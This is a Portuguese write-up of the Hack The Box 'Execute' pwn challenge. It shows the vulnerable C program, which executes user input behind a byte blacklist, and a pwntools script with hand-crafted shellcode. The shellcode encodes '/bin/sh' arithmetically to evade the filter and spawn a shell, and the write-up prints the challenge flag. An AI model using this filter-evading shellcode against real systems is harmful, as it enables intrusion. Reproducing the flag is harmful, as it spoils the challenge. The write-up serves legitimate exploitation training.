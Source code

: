 # WriteUp: Execute

## Descrição do Desafio:
**Autor**: [AlexZander](https://app.hackthebox.com/users/90864) \
**Plataforma**: [Hack The Box](https://app.hackthebox.com/challenges/Execute) \
**Categoria**: Pwn \
**Dificuldade**: Fácil \
**Data**: 2024 \
**Descrição**:
> Can you feed the hungry code?

## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
Este desafio fornece o código-fonte dele, dessa forma o primeiro passo é analisar ele para tentar identificar possíveis vulnerabilidades.

{% code title="execute.c" overflow="wrap" lineNumbers="true" %}

```c
// gcc execute.c -z execstack -o execute

#include <signal.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void setup() {
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    alarm(0x7f);
}

int check(char *a, char *b, int size, int op) {
    for(int i = 0; i < op; i++) {
        for(int j = 0; j < size-1; j++) {
            if(a[i] == b[j])
                return 0;
        }
    }
    
    return 1337;
}

int main(){
    char buf[62];
    char blacklist[] = "\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67";

    setup();

    puts("Hey, just because I am hungry doesn't mean I'll execute everything");
    
    int size = read(0, buf, 60);
	   
    if(!check(blacklist, buf, size, strlen(blacklist))) {
        puts("Hehe, told you... won't accept everything");
        exit(1337);
    }

    ( ( void (*) () ) buf) ();
}

```

{% endcode %}

Analisando o código, podemos perceber que ele verifica se nosso *input* contém algum dos *bytes* da `blacklist`, e se nenhum desses *bytes* estiver no *input*, o código executa o que estiver no `buf`.

Dessa forma, a vulnerabilidade se torna bem óbvia, devemos inserir *shellcodes* no *input* para eles imprimirem o conteúdo do arquivo `flag.txt` ou deem acesso ao terminal, porém nenhum dos *bytes* da `blacklist` deve estar no *input*.

{% hint style="info" %}

**Nota:** O *shellcode* será executado porque a proteção `NX` está desativada.

{% endhint %}

### 2. Exploit
A abordagem adotada foi criar um *shellcode* que chama a *syscall* `execve` passando como parâmetro a *string* `/bin/sh`. Normalmente, o assembly seria:

{% code title="normal_assembly" overflow="wrap" lineNumbers="true" %}

```asm

mov rdi, "/bin/sh" ; Na verdade seria o endereço da string.
mov rdx, 0
mov rsi, 0
mov rax, 0x3b
syscall

```

{% endcode %}

Porém muitos dos *bytes* presentes nessa sequência de código estão na `blacklist`. Então, a solução acabou sendo mais na tentativa e erro, testando sequências que não contenham *bytes* da lista negra.

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./execute")
context.arch = "x86-64"

p = remote("ip", porta)
#p = process()

shellcode = asm('''
                mov eax, 0x3c
                dec al
                mov rdx, 0
                mov rsi, 0
                mov rdi, 0x0065722f6d65602f
                mov r10, 0x0003010001040200
                add rdi, r10
                push rdi
                mov rdi, rsp
                syscall
''')

p.sendline(shellcode)
p.interactive()
```

{% endcode %}

Com isso é possível obter acesso ao terminal, e digitando o comando `cat flag.txt` a **flag** aparece.

### Flag
`HTB{wr1t1ng_sh3llc0d3_1s_s0_c00l}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)